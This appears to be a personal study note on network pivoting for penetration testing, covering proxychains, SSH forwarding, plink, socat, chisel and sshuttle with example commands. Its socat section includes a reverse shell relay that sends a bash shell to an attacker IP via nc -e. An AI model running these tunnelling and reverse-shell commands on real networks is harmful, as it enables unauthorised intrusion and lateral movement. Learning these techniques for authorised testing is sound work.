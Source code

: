 ```yaml
---
layout: default
---
```

# Pivoting

Pivoting is the art of using access obtained over one machine to exploit another machine deeper in to the network

Two Main method to do pivioting ;:
→ Tunneling/proxying → creating a proxy type connection through a compromised machine in order to route all desired traffic in to the targeted system.This could also be tunnelled inside another protocole (eg SSH tunnelling), which can be useful to evade basic IDS or firewall.
→ Port Forwarding → Creating a connection between a local port and single port on a target via compromised host.

Proxy is good if we want to redirect lots of different kind of traffic into our target network (example nmap scan)
Port forwading is faster and reliable but only allows us to access single port on a target device

## ProxyChains,FoxyProxy

In /etc/proxychains.conf comment out the proxy_dns line which can cause a scan to hang and ultimately crash
→ We can only use TCP scans -- so no UDP or SYN scans. ICMP echo packets will also not work through the proxy, so use -Pn switch
→ It will be extremely slow. 

## SSH Tunneling

Forward Connections → It is done when we have ssh access to the target

There are two ways to do it ::
1) → Port Forwading → it is done using -L switch which creates a link to a local port.
```
Example :: 
ssh access server → 172.16.0.5
web server running → 172.16.0.10
Command → ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
-fN → backgrounds the shell so that we have our terminal back and N tells that it does not need to execute any commands only set up connection.
```
We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine (localhost:8000).

2) → Proxies → Proxies are made using the -D switch 
```
Example :: 
-D 1337 → This will open up port 1337 on our attacking box as a proxy to send data through in to the protected network.Useful when combined with proxychains
Command → ssh -D 1337 user@172.16.0.5 -fN
```
Reverse Connection → Risky do not do it

## Plink.exe

It is a windows command line version of the PUTTY ssh client . Now windows comes with its own ssh client.

Syntax of command → cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
cmd.exe /c echo y → is for non-interactive shells (like mose reverse-shells).

```
Example ::
we have  access → 172.16.0.5
web server running → 172.16.0.10
command → cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE (id_rsa) -N
```
Note → any keys generated with ssh-keygen will not work here we need to convert them using puttygen tool
command → puttygen KEYFILE -o OUTPUT_KEY.ppk

## SOCAT
### Reverse shell Relay ::

On our attacking box     → nc -lvnp 443
On compromised server → ./socat tcp-l:8000 tcp:attacking-ip:443 & 
```
Example :: 
[root@prod-server]# ./socat tcp-l:8000 tcp:10.50.73.2:443 & → listen on  8000 and send traffic to attacker 443
[root@prod-server]# chmod +x ./nc
[root@prod-server]# ./nc 127.0.0.1 8000 -e /bin/bash → here we connect to the server 8000 which will direct it to attacker 443
````
### Forwarding PORT NOISY:: 
compromised server → 172.16.0.5
target server and port → 172.16.0.10:3306

command → ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
This opens up a port 33060 in compromised server and redirects the input from the attacking machine straight to the intended target server giving us access to the port 3306 (maybe MYSQL) running on th target.
fork → fork in used to put every connection in to the new process
reuseaddr → means that the port stays open after the connection is made to it.

### Forwarding Port Quiet ::
Previous techinque opens up a port in compromised server which can be noisy and detectable

Attacking machine → socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
open up two port 8001 and 8000 creating a local port relay what goes in to one comes out into another. For this reason port 8000 has fork and reuseaddr to create more than one connection using the port forward

Compromised relay server (172.16.0.5) → ./socat tcp:Attacking_ip:8001 tcp:TARGET_IP(172.16.0.10):TARGET_PORT(80),fork &
this makes connection between our listening port 8001 on the attacking machine and open port of the target server.
we could go localhost:8000 in our attacking machine web browser to load the webpage served by the target (172.16.0.10:80)

What happens when we access the webpage in browser ::
1) → The request goes to 127.0.0.1:8000
2) → Due to socat listening on it anything goes in to 8000 comes out of port 8001
3) → Port 8001 is connected to socat process of the compromised server where it gets relayed to the port 80 of the target server

When target sends response :::
1) the response is sent to the socat process on the compromised server.What goes in to the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine
2) Anything that goes in to port 8001 of out attacking machine comes out of 8000 on our attacking machine, which is where the webbrowser is expecting to receive the response.

TO close ::
1) jobs
2) kill %1

## CHISEL
It is a tool used to set up tunneling proxy or port forward through a compromised system regardless of whether we have ssh access or not.
It has two modules ;:
server
client

### Reverse SOCKS Proxy ::
This connects back from a compromised server to a listener waiting on our attacking machine.
```
Attacking box → ./chisel server -p LISTEN_PORT --reverse &
THis sets up listener on our chosen port

Compromised Server → ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
THis command connects back to the waiting listener on our attacking box ,completing the proxy. 
```
### Forward SOCKS PROXY ::
Rarer then reverse proxies same as reverse shell common than bind shell
```
Compromised host → ./chisel server -p LISTEN_PORT --socks5
Attaking host →  ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
PROXY_PORT will be the port that will be opened for the proxy
```
> we need to edit /etc/proxychains.conf file → socks 127.0.0.1 1080

### Remote Port Forward ::
A remote port forward is when we connect back from a compromised target to create the forward

Attacking Machine → ./chisel server -p LISTEN_PORT --reverse &
Compromised Mac → ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
LISTEN_PORT → the port we started the chisel server on
LOCAL_PORT → the port we wish to open on our attacking machine to link with the desired target port 
```
Compro server → ./chisel_client 172.16.0.20:1337(our IP) R:2222:172.16.0.10:22(target_ip) &
Attack machine → ./chisel_server -p 1337 --reverse &
This would allow us to access 172.16.0.22 by navigating to 127.0.0.1:2222
```
### Local Port Forward:: 
It is where we connect from our own attacking machine to a chisel server listening on a compromised target.

Compromised target → ./chisel server -p LISTEN_PORT 
attacking box → ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

## SSHUTTLE 
It uses ssh connection to create a tunnelled proxy that acts like a new interface.It allows use to route our traffic through proxy without proxychains.

cons::
1) it only works on linux targets
2) it requires access to the compromised server via ssh also python also needs to be installed on the server.

```
use → sshuttle -r user@address subnet
example → sshuttle -r user@172.16.0.5(comp host) 172.16.0.0/24

we can also use -N rather than specifying subnet to determine them automatically based on the compromised server own's routing table
example → sshuttle -r username@address -N → may not always be successful

Using Private Key file ::
use → sshuttle -r user@address --ssh-cmd “ssh -i KEYFILE” subnet
example → sshuttle -r user@172.16.0.5 --ssh-cmd “ssh -i private_key" 172.16.0.0/24

When encountering "client: fatal: server died with error code 255" error ::
use → sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
-x → to exclude
```

